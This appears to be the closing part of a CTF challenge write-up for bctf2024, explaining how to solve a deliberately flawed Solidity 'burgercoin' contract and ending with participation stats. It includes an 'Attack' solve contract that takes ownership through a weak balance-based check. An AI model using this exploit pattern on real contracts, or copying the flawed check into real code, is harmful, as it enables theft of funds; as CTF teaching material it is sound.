 ```js

    function transferBurgerjointOwnership(address newOwner) public {
        require(balances[msg.sender] >= 30, "You are not the burger joint owner");
        owner = newOwner;
    }

    function isSolved() public view returns (bool) {
        return balances[owner] == 0;
    }
}
```

Our goal is to bankrupt the contract owner, but we can actually see if we are able to transfer ownership to an address with no burgercoin, the contract is marked as solved.

To become owner we need to get 30 burger coins. We can do this by calling `purchaseBurger` 30 times from different addresses. The contract won't run out of burgercoin since it is an `int` and can go negative.

After we have 30 burgercoins, we can call `transferBurgerjointOwnership` to transfer ownership to an address with 0 burgercoins.

Then the challenge is solved.

Solve Contract:
```js
contract Attack {
    burgercoin public target;

    constructor(address _target) {
        target = burgercoin(_target);
    }

    function attack(address _me) public {
        target.purchaseBurger();
        target.transfer(_me, 1);
    }

    function isSolved() public view returns (bool) {
        return target.isSolved();
    }
}
```

# Review
---

I'd say this iteration of bctf2024 went very well, and people seemed to have a lot of fun solving my challenges! 

See some stats below
```
739 total teams
393 teams solved sanity check or more
276 teams solved a non-sanity check chall
```

See you next year!!
